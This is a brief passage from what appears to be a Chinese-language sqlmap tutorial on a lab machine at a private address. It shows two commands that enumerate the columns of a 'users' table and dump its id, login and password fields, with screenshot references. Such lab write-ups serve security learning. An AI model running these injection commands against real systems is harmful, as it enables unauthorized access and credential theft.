 - `sqlmap -u "http://192.168.56.101/cat.php?id=1" --columns -T "users" -D "photoblog"`,获取给定数据库给定表中的列名和类型<br>![](sqlmap6.png)

- `sqlmap -u "http://192.168.56.101/cat.php?id=1" --dump -C "id,login,password" -T "users" -D "photoblog"`读取指定数据库指定表中的指定字段内容<br>![](sqlmap7.png)
